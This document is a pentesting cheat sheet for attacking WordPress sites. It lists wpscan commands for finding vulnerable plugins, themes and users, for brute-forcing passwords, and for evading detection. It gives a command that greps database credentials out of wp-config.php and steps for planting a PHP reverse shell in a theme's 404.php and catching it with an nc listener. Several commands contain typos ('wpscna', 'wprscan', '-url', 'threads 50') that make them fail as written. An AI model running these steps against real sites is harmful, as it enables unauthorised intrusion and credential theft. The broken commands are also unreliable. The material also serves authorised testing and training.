 ### wpscan 

#### update wpscan 
- wpscna update

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan -url http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan -url http://[victim_ip] -P wordlist.txt threads 50
#### Username Bruteforce
- wprscan -url http://[victim_ip] -U wordlist.txt 
#### All Plugins
- wpscan --url http://[victim_ip] --enumerate p
#### All Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Database Exports
- wpscan --url http://[victim_ip] --enumerate dbe
#### Backups
- wpscan --url http://[victim_ip] --enumerate cb
##### Random User-Agent
- --random-user-agent
##### Avoid Detection(limited check)
- --stealthy
##### Disable SSL/TLS Security
- --disable-tls-checks
##### Disable Wordpress Detection
- --force
###### Docker pull the repo
- docker pull wpscanteam/wpscan
###### Docker Enumerate Usernames
- docker run -it --rm wpscanteam/wpscan --url
[victim_ip] --enumerate u
###### Get data from config file
cat [/target/wp/path/wp-config.php |grep -E "DB_USER|DB_PASS"
----------------------------------------------------------------------------------------------------------------------------------------
### ReverseShell via thames

- Log_in
- Side menu
- Appearance
  - Editor
  - 404.php
  - paste php reverse shell
- run nc -lnvp [ip]

- Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php


